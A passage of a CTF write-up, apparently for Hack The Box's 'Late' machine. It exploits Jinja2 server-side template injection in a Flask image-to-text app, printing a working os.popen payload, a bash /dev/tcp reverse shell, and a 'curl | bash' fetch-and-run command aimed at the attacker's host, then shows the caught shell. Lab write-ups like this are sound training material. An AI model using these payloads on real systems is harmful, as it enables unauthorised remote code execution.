 Since this is a flask application so it might be vulnerable to a Server Side Template Injection, let's figure it out.

Flask use the template engine [Jinja2]([Jinja &#8212; Jinja Documentation (3.1.x)](https://jinja.palletsprojects.com/en/3.1.x/)) by default, so that is what we'll be basing our payloads on.

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2) has a various payloads for this such type. I'll upload a typical payload like `{{ 7*7 }}` as a image to check it out:

![](/home/werz/Desktop/ctf/htb/writeup/CTF-writeups/HTB/Machines/late/img/7*7.png)

checking the `results.txt` file:

```bash
[werz@ctf01 results]$ cat results_2.txt 
<p>49
</p>[
werz@Arch results]$
```

So yeah! it seems work fine, we need to manage to get a reverse shell now [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)

I'll use this type of payload:

```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

Setup a bash reverse shell, I'll give it `index.html` name to get it mapped by the first endpoint `/` with the http python server:

```bash
echo "bash -i >& /dev/tcp/10.10.16.8/9001 0>&1" > rev
[werz@ctf01 www]$ cat rev
bash -i >& /dev/tcp/10.10.16.8/9001 0>&1
```

Then start a python server:

```bash
[werz@Arch www]$ sudo python3 -m http.server 80
[sudo] password for werz: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```python
```python
{{ cycler.__init__.__globals__.os.popen('curl 10.10.16.8 | bash').read() }}
```

```
the image should look like this, white background black font helps:

![](/home/werz/Desktop/ctf/htb/writeup/CTF-writeups/HTB/Machines/late/img/rev_pay.png)



and we have a shell!

```bash
[werz@ctf01 www]$ nc -lvnp 9001
Connection from 10.10.11.156:35182
bash: cannot set terminal process group (1129): Inappropriate ioctl for device
bash: no job control in this shell
svc_acc@late:~/app$ 
```
